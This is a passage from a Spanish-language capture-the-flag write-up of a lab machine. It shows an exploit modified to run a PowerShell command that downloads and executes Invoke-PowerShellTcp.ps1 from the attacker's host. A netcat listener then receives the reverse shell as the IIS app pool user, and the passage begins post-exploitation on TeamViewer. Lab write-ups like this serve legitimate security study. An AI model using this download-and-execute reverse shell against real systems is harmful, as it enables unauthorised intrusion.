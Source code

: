 * Modificamos el Exploit para que cargue la **Reverse Shell**:
```batch
{ string cmd = "/c powershell IEX(New-Object Net.WebClient).downloadString(\'http://Tu_IP/Invoke-PowerShellTcp.ps1\')"; System.Diagnost>
 proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;\
```

* Activamos una **netcat**:
```bash
nc -nvlp 443                                        
listening on [any] 443 ...
```

* Activamos un servidor en **Python** para que la máquina descargue el Exploit:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Activamos el Exploit y vemos el resultado:
```bash
nc -nvlp 443                                        
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.180] 49736
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
```

Incluso si vemos el servidor en **Python**, veremos cómo se descargó y está activo pues si lo quitamos, se quita todo:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.180 - - [26/Mar/2023 20:15:53] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
127.0.0.1 - - [26/Mar/2023 22:05:25] "GET / HTTP/1.1" 200 -
```
Bien ya estamos dentro, ahora es cosa de buscar la flag del usuario y listo.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="exploit1">Explotando Servicio TeamViewer</h2>

Bien, es hora de buscar que hay en la máquina. Investigamos en varios lados, pero hay algo interesante en el directorio **Program Files (x86)** y es el servicio **TeamViewer**, pero ¿qué es esto?

| **TeamViewer** |
|:-----------:|
| *TeamViewer es un software para el acceso remoto, así como para el control y el soporte en remoto de ordenadores y otros dispositivos finales.* |
